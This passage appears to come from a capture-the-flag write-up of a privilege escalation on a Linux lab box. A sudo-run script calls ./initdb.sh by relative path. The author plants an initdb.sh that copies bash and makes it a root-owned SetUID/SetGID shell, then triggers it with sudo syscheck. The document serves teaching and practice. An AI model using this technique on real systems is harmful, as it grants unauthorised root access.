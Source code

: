 

    if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
      /usr/bin/echo "Database service is not running. Starting it..."
      ./initdb.sh 2>/dev/null
    else
      /usr/bin/echo "Database service is running."
    fi



Then it exits:



    exit 0



#### initdb.sh

It doesn't actually matter, but I can search the disk for a file named
`initdb.sh`:



    dvir@headless:~$ find / -name 'initdb.sh' 2>/dev/null



It finds nothing. It could exist in a directory that dvir doesn't have
access to.

But again, that doesn't matter. It's called as `./initdb.sh`, which
means it will look for that file in whatever directory the caller is in.

### Exploit

I'll write a simple Bash script that will copy `bash` to `/tmp/0xdf`,
set the owner of that file to root, and then set it as SetUID/SetGID
(which means that it will run as the owner, not the user running it).
This effectively gives me a copy of `bash` that runs as root:



    dvir@headless:/dev/shm$ echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 6777 /tmp/0xdf' | tee initdb.sh
    #!/bin/bash

    cp /bin/bash /tmp/0xdf
    chown root:root /tmp/0xdf
    chmod 6777 /tmp/0xdf
    dvir@headless:/dev/shm$ chmod +x initdb.sh



It's also important to make the script executable.

I'll run `sudo syscheck`:



    dvir@headless:/dev/shm$ sudo syscheck
    Last Kernel Modification Time: 01/02/2024 10:05
    Available disk space: 1.8G
    System load average:  0.04, 0.05, 0.01
    Database service is not running. Starting it...
